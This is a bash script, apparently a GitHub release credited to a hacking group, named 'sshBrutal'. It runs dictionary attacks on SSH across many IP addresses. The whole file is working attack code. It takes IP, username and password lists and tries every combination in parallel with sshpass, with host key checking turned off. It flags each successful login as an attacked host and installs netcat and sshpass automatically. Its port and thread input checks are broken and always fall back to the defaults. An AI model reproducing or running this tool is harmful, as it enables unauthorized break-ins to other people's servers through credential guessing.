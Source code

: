 # SSH-brutal-4wsec
#!/bin/bash

# sshBrutal
# Release on 23/12/2018
# Github: github.com/aryanrtm/sshBrutal
# © Copyright ~ 4WSec

# color
PP='\033[95m' # purple
CY='\033[96m' # cyan
BL='\033[94m' # blue
GR='\033[92m' # green
YW='\033[93m' # yellow
RD='\033[91m' # red
NT='\033[97m'  # netral


function header(){
printf "
\t${RD}           _     ______                          _  
\t${RD}          | |   (____  \               _        | | 
\t${RD}  ___  ___| |__  ____)  ) ____ _   _ _| |_ _____| | 
\t${RD} /___)/___)  _ \|  __  ( / ___) | | (_   _|____ | | 
\t${RD}|___ |___ | | | | |__)  ) |   | |_| | | |_/ ___ | | 
\t${RD}(___/(___/|_| |_|______/|_|   |____/   \__)_____|\_)
\t${YW}Author: ${GR}4WSec - Anon Cyber Team
\t${YW}sshBrutal ${GR}Is Multiple IP Dictionary Attack
\t----------------------------------------------------
"
}


function chk_depen(){
	clear
	if [[ -f "dependencies.conf" ]]; then
		sleep 1
	else
		printf "\t ${BL}[!] ${NT}Checking Guns ..........\n"
		echo ""
		touch dependencies.conf
		echo "# 4WSec And They BOT Just Dropped Yo SSH" >> dependencies.conf
		sleep 1
		nc -h > /dev/null 2>&1
		if [[ $? -eq 0 ]]; then
			printf "\t ${YW}Netcat ${NT}.......... ${GR}[✔]\n"
			echo "netcat = yes" >> dependencies.conf
		else
			printf "\t ${YW}Netcat ${NT}.......... ${RD}[✘]\n"
			sleep 1
			apt-get install netcat -y
		fi
		sshpass -h > /dev/null 2>&1
		if [[ $? -eq 0 ]]; then
			printf "\t ${YW}SSHPass ${NT}.......... ${GR}[✔]\n"
			echo "sshpass = yes" >> dependencies.conf
		else
			printf "\t ${YW}SSHPass ${NT}.......... ${RD}[✘]\n"
			sleep 1
			apt-get install sshpass -y
		fi
		sleep 5
		clear
	fi
}


function attack_ssh(){
	printf "\t${YW}[Attacking The IP: ${NT}$ipls:$p0rt${YW}] [User: ${NT}$userls${YW}] [Pass: $passls]\n"
	l0g1n=$(sshpass -p "$passls" ssh -o StrictHostKeyChecking=no "$userls"@"$ipls" -p $p0rt uname -a 2> /dev/null | grep -c "0" ); 
	if [[ $l0g1n == "1" ]]; then
		printf "\t${RD}[IP Was Attacked: ${GR}$ipls:$p0rt${RD}] [User: ${GR}$userls${RD}] [Pass: ${GR}$passls]\n"
	fi
}


function run_sshbrutal(){
	con=1
	clear
	chk_depen
	header
	read -p "        Enter IP List: " ip_list;
	if [[ ! -e $ip_list ]]; then
		printf "\t${RD}[!] ${YW}File Not Found\n"
		exit
	fi
	read -p "        Enter Port (Default 22): " p0rt;
	if [[ $p0rt="" ]]; then
		p0rt=22
	fi
	read -p "        Enter Username List: " us3rnm;
	if [[ ! -e $us3rnm ]]; then
		printf "\t${RD}[!] ${YW}File Not Found\n"
		exit
	fi
	read -p "        Enter Password List: " p4sswd;
	if [[ ! -e $p4sswd ]]; then
		printf "\t${RD}[!] ${YW}File Not Found\n"
		exit
	fi
	read -p "        Enter Threads: " threads;
	if [[ $threads="" ]]; then
		threads=10
	fi
	echo ""
	for ipls in $(cat $ip_list); do
	for userls in $(cat $us3rnm); do
	for passls in $(cat $p4sswd); do
		fast=$(expr $con % $threads)
		if [[ $fast == 0 && $con > 0 ]]; then
			sleep 3
		fi
		attack_ssh &
		con=$[$con+1]
	done
	done
	done
	wait
}
run_sshbrutal
